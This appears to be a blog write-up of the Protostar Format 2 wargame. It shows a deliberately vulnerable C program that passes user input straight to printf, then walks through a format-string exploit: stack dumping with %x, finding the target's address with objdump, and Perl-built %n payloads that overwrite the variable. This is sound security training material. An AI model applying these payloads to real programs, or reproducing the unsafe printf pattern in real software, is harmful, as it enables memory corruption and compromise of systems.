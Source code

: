 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 2"
date: "2012-01-31T05:13:00-05:00"
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing from where we left off, we arrive at [Format 2](http://exploit-exercises.com/protostar/format2).  It presents us with the following code: 

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);
 printf(buffer);

 if(target == 64) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %d :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This challenge seems very similar to Format 1, in all but 2 ways:

1. The input is done via a fgets() instead of from the program arguments.
2. Instead of allowing just any change, it specifically requires "target" to be equal to "64".

We'll start pretty much the same way as last time, spamming "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "AAAAAAAA" . "%x."x150'` | ./format2
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.a2e78.b7eada75.b7fd7ff4.80496b0.bffff7c8.8048338.b7ff1040.80496b0.bffff7f8.80484f9.b7fd8304.b7fd7ff4.80484e0.bffff7f8.b7ec6365.b7ff1040.bffff7f8.80484c6.80484e0.0.bffff878.b7eadc76.1.bffff8a4.bffff8ac.b7fe1848.bffff860.ffffffff.b7ffeff4.8048285.1.bffff860.b7ff0626.
target is 0 :(
```

This time, however, it seemed MUCH quicker to get the "41414141", only 4 words.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ ./format2
AAAA%x%x%x%x
AAAA200b7fd8420bffff62441414141
target is 0 :(
```

So we're getting to a pretty good point, let's go ahead and find the memory address for "target": 

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target
```

Next, let's put that address in, replacing the "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%x"'` | ./format2
200b7fd8420bffff62480496e4
target is 0 :(
```

The address seems to be the last word, without any problems.  So if we convert the last "%x" to "%n", it should overwrite that address in memory with the count of characters printed: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%n"'` | ./format2
200b7fd8420bffff624
target is 23 :(
```

Unfortunately, only 23 characters were written.  We can increase that number artificially by just changing the format string from "%x" to "%44x".  This pads the string to be 44 characters long: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%44x%x%x%n"'` | ./format2
                                         200b7fd8420bffff624
you have modified the target :)
```

That's pretty much how it's done. 

And again, as bonus, if you want to use Direct Argument Access, you can simply do:

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%7\\\$60x%4\\\$n"'` | ./format2
                                                       a6e24
you have modified the target :)
```
